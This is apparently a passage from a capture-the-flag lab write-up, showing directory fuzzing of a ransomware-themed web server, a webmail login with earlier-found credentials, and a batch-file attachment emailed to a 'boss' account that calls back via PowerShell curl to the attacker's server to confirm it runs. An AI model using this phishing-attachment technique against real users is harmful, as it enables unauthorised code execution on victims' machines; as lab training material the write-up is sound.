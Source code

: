 Visiting the HTTP server at `http://10.10.53.24/`, we encounter a page displaying a ransomware note.

![Act2 Web 80 Index](act2_web_80_index.webp){: width="1200" height="800" }

Fuzzing the web server for directories, we discover two interesting ones: `/mail` and `/rc`.

```console
$ ffuf -u 'http://10.10.53.24/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -t 100 -ic -fc 404
...
mail                    [Status: 301, Size: 334, Words: 22, Lines: 10, Duration: 149ms]
rc                      [Status: 301, Size: 332, Words: 22, Lines: 10, Duration: 223ms]
```
{: .wrap }

At `http://10.10.53.24/mail/`, we find a **RainLoop** installation.

![Act2 Web 80 Rainloop](act2_web_80_rainloop.webp){: width="1200" height="800" }

And at `http://10.10.53.24/rc/`, we find a **Roundcube** installation.

![Act2 Web 80 Roundcube](act2_web_80_roundcube.webp){: width="1200" height="800" }

From the previous task, we already have an email address and a password. We can choose either of the webmail applications to log in with those credentials to read the user's mail.

After logging in, we find a single email from `boss@berrybears.ioc`, asking for a key.

![Act2 Web 80 Roundcube Mail One](act2_web_80_roundcube_mail1.webp){: width="1200" height="800" }

Interestingly, if we send an email to the `boss@berrybears.ioc` user, we receive a reply shortly afterward stating that they did not find the key.

![Act2 Web 80 Roundcube Mail Two](act2_web_80_roundcube_mail2.webp){: width="1200" height="800" }

Next, if we send an email with an attachment, we receive a reply saying, "Let me have a look!".

![Act2 Web 80 Roundcube Mail Three](act2_web_80_roundcube_mail3.webp){: width="1200" height="800" }

So, the `boss@berrybears.ioc` might be downloading and running our attachments. We can test this by simply sending a batch script that makes a request to our server.

First, we create our batch script as follows:

```batch
@echo off
powershell curl http://10.11.72.22/test
```
{: file="test.bat" }

Now, after sending an email with the batch script as an attachment, we see a hit on our web server after some time, confirming that the user ran our attachment.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.53.24 - - [10/Nov/2024 04:29:12] code 404, message File not found
10.10.53.24 - - [10/Nov/2024 04:29:12] "GET /test HTTP/1.1" 404 -
```
